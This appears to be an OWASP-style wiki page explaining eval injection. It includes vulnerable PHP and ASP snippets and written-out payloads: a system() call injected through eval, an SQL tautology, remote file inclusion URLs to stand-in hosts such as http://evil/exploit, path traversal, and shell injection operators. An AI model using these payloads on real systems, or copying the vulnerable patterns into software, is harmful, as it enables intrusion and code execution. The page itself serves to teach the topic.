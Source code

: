 ```yaml
---

layout: col-sidebar
title: Direct Dynamic Code Evaluation - Eval Injection
author: 
contributors:
permalink: /attacks/Direct_Dynamic_Code_Evaluation_Eval Injection
tags: attack, direct dynamic code evaluation, eval injection
auto-migrated: 1

---
```



Description
This attack consists of a script that does not properly validate user inputs in the page parameter. A remote user can supply a specially crafted URL to pass arbitrary code to an eval() statement, which results in code execution.

Note 1: This attack will execute the code with the same permission like the target web service, including operation system commands.

Note 2: Eval injection is prevalent in handler/dispatch procedures that might want to invoke a large number of functions, or set a large number of variables.

Risk Factors
TBD

Examples
Example 1
In this example an attacker can control all or part of an input string that is fed into an eval() function call

  $myvar = "varname"; 
  $x = $_GET['arg']; 
  eval("\$myvar = \$x;"); 
The argument of "eval" will be processed as PHP, so additional commands can be appended. For example, if "arg" is set to "10 ; system(\"/bin/echo uh-oh\");", additional code is run which executes a program on the server, in this case "/bin/echo".

Example 2
The following is an example of SQL Injection. Consider a web page which has two fields to allow users to enter a Username and a Password. The code behind the page will generate a SQL query to check the Password against the list of Usernames:

SELECT UserList.Username
FROM UserList
WHERE
UserList.Username = 'Username'
AND UserList.Password = 'Password'
If this query returns exactly one row, then access is granted. However, if a malicious user enters a valid Username and injects some valid code ("' OR 1=1") in the Password field, then the resulting query will look like this:

SELECT UserList.Username
FROM UserList
WHERE
UserList.Username = 'Username'
AND UserList.Password = 'Password' OR '1'='1'
In the example above, "Password" is assumed to be blank or some innocuous string. "1=1" will always be true and many rows will be returned, thereby allowing access. The final inverted comma will be ignored by the SQL parser. The technique may be refined to allow multiple statements to run, or even to load up and run external programs.

Example 3
This is an example of a file that was injected. Consider this PHP program (which includes a file specified by request):

<?php
   $color = 'blue';
   if ( isset( $_GET['COLOR'] ) )
      $color = $_GET['COLOR'];
   require( $color . '.php' );
?>
<form>
   <select name="COLOR">
      <option value="red">red</option>
      <option value="blue">blue</option>
   </select>
   <input type="submit">
</form>

The developer thought this would ensure that only blue.php and red.php could be loaded. But as anyone can easily insert arbitrary values in COLOR, it is possible to inject code from files:

/vulnerable.php?COLOR=http://evil/exploit - injects a remotely hosted file containing an exploit.
/vulnerable.php?COLOR=C:\ftp\upload\exploit - injects an uploaded file containing an exploit.
/vulnerable.php?COLOR=..\..\..\..\ftp\upload\exploit - injects an uploaded file containing an exploit, using Path Traversal.
/vulnerable.php?COLOR=C:\notes.txt%00 - example using Null character, Meta character to remove the .php suffix, allowing access to other files than .php. (PHP setting "magic_quotes_gpc = On", which is default, would stop this attack)
Example 4
A simple URL which demonstrates a way to do this attack:

 http://some-page/any-dir/index.php?page=<?include($s);?>&s=http://malicious-page/cmd.txt?  
Example 5
Shell Injection applies to most systems which allow software to programmatically execute a Command line. Typical sources of Shell Injection are calls system(), StartProcess(), java.lang.Runtime.exec() and similar APIs.

Consider the following short PHP program, which runs an external program called funnytext to replace a word the user sent with some other word.

<HTML>
<?php
passthru ( " /home/user/phpguru/funnytext " 
           . $_GET['USER_INPUT'] );
?>
This program can be injected in multiple ways:

`command` will execute command.
$(command) will execute command.
; command will execute command, and output result of command.
| command will execute command, and output result of command.
&& command will execute command, and output result of command.
|| command will execute command, and output result of command.
> /home/user/phpguru/.bashrc will overwrite file .bashrc.
< /home/user/phpguru/.bashrc will send file .bashrc as input to funnytext.
PHP offers escapeshellarg() and escapeshellcmd() to perform encoding before calling methods. However, it is not recommended to trust these methods to be secure - also validate/sanitize input.

Example 6
The following code is vulnerable to eval() injection, because it don’t sanitize the user’s input (in this case: “username”). The program just saves this input in a txt file, and then the server will execute this file without any validation. In this case the user is able to insert a command instead of a username.

Example:

<%
	If not isEmpty(Request( "username" ) ) Then
		Const ForReading = 1, ForWriting = 2, ForAppending = 8
		Dim fso, f
		Set fso = CreateObject("Scripting.FileSystemObject")
		Set f = fso.OpenTextFile(Server.MapPath( "userlog.txt" ), ForAppending, True)
		f.Write Request("username") & vbCrLf
		f.close
		Set f = nothing
		Set fso = Nothing
		%>
		<h1>List of logged users:</h1>
		<pre>
		<%
			Server.Execute( "userlog.txt" )
		%>
		</pre>
		<%
	Else
		%>
		<form>
			<input name="username" /><input type="submit" name="submit" />
		</form>
		<%
	End If
%>
Related Threat Agents
Internal software developer
Related Attacks
Direct Static Code Injection
Code Injection
Injection Attacks
Related Vulnerabilities
Category:Input Validation Vulnerability
Related Controls
Category:Input Validation
References
http://secunia.com/cve_reference/CVE-2006-2005/?show_result=1
http://en.wikipedia.org/wiki/Code_injection
